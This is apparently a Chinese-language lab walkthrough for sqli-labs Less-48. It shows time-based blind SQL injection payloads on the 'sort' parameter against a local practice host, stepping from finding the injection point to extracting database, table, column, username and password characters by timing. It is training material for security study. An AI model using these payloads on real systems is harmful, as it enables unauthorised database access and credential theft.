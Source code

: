 ```yaml
---
title: Less - 48
date: 2023-03-22T12:54:37Z
lastmod: 2023-03-22T13:13:20Z
---
```


# Less - 48

---

# 通关教程

---

## 1、判断闭合

---

```http
?sort=1--+
```

​![image](assets/image-20230322125650-20pftue.png)​

```http
?sort=1'--+
```

​![image](assets/image-20230322125731-hkpehan.png)​

---

## 2、查看当前数据库长度

---

```http
http://192.168.23.128/sqli-labs/Less-47/?sort=1 and if(length(database())=8,1,sleep(2))--+
```

​​![image](assets/image-20230322130746-09b4fxt.png)​

​页面快速反应，证明当前数据库长度为8

---

## 3、查看当前数据库的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr(database(),1,1)='s',1,sleep(2))--+
```

​![image](assets/image-20230322130719-39l7c7x.png)​

页面快速反应，证明当前库的第一个字母为s，更改substr函数的索引依次往后面猜解

---

## 4、查看当前库下的第一张表的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1)='e',1,sleep(2))--+
```

​![image](assets/image-20230322131004-tigiw13.png)​

页面快速反应，证明当前库下的第一张表的第一个字母为e，更改substr函数的索引依次往后面猜解

---

## 5、查看users表下的第一个字段下的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='u',1,sleep(2))--+
```

​![image](assets/image-20230322131201-4f5yyhe.png)​

页面快速反应，证明users表下的第一个字段的第一个字母为u，更改substr函数的索引依次往后面猜解

---

## 6、查看username,password字段下的第一个值的第一个字母

---

```http
http://192.168.23.128/sqli-labs/Less-48/?sort=1 and if(substr((select group_concat(username,password) from security.users limit 0,1),1,1)='d',1,sleep(2))--+
```

​![image](assets/image-20230322131307-i9w3dl8.png)​

‍
